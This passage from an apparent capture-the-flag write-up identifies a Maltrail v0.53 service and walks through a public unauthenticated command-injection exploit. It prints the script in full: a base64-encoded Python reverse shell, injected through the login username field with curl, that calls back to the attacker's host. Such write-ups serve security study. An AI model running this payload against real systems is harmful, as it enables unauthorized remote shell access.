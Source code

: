 It gives a URL I can visit to see the results:

![image-20240104104623782](https://0xdf.gitlab.io/img/image-20240104104623782.png)

The CSS and images aren’t loading, but I can at least see it’s Mailtrail v0.53.

I’ll try the same thing on 8338, and find it’s the same application.

### RCE in Mailtrail

#### Identify

Searching for “Mailtrail exploit”, the first hit is [this repo](https://github.com/spookier/Maltrail-v0.53-Exploit) which has an unauthenticated code execution vulnerability in Mailtrail v0.53. The login page doesn’t sanitize the input for the username parameter, which leads to OS command injection.

#### Script Analysis

This script is pretty hacky, using `os.system` in Python to call `curl` to make the request:

```
def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

```

It’s a simple POST request to the given url plus `/login`.

```
def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)

	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

```

#### Exploit
